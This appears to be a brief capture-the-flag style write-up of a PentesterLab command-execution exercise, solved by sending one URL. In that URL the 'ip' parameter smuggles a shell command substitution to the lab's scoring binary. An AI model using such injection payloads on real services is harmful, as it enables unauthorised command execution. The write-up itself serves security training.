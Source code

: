 

# Command Execution 03

This exercise is one of our challenges on Command Execution

![1694174496384.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694174496384.png)


we use same payload as previous challenge to solve this lab:

```http
https://ptl-92f8dd549bb8-de7d38d8c9d4.libcurl.me/?ip=$(/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92)
```

we got this result after sending the payload

 ![1694174630111.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694174630111.png)

and the solution reflected in pentensterlabs.
